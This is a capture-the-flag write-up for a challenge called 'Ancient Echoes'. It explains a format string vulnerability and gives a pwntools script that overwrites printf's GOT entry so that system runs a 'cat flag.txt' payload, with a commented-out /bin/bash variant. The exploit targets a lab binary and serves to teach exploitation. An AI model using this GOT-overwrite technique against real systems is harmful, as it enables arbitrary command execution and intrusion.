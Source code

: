 # Ancient Echoes - writeup
## Overview
![](attachments/main.png)
\
After opening the file in IDA we can immediately see the vulnerability which is the format string vulnerability. \
![](attachments/checksec.png) \
For this binary there is no aslr, so the code will always be at the same address. Relro is set as Partial, so we will be able to overwrite GOT. \
![](attachments/wild_magic.png)
\
We can also find that there is a wild_magic function that is not used anywhere, which calls the system with the given command.

## Exploitation
Since we have the printf function twice thanks to which we are able to overwrite the data in goty, we need to create such a payload that simultaneously overwrites the printf addres in goty to the function that executes system and reads the flag from the server.
This will work because the argument of the system function will then become our payload.\nThe
code:
```python
from pwn import process, fmtstr, ELF, context, args

context.binary = ELF(args.EXE or './chall')
io = process("./chall")
printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```
